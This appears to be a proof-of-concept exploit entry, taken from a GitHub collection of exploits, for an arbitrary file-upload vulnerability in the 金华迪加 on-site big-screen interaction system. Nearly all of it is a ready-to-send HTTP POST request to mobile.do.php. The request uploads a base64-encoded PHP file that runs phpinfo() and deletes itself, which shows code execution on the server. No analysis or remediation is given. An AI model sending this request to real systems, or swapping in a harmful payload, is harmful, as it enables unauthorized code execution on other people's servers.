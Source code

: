 # jinhuadijia_mobile.do.php_fileupload
product: 金华迪加现场大屏互动系统
```
POST /mobile/mobile.do.php?action=msg_uploadimg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close

filetype=php&imgbase64=PD9waHAgcGhwaW5mbygpO3VubGluayhfX0ZJTEVfXyk7Pz4=
```
from: https://github.com/wy876/POC/blob/main/%E9%87%91%E5%8D%8E%E8%BF%AA%E5%8A%A0/%E9%87%91%E5%8D%8E%E8%BF%AA%E5%8A%A0%E7%8E%B0%E5%9C%BA%E5%A4%A7%E5%B1%8F%E4%BA%92%E5%8A%A8%E7%B3%BB%E7%BB%9Fmobile.do.php%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
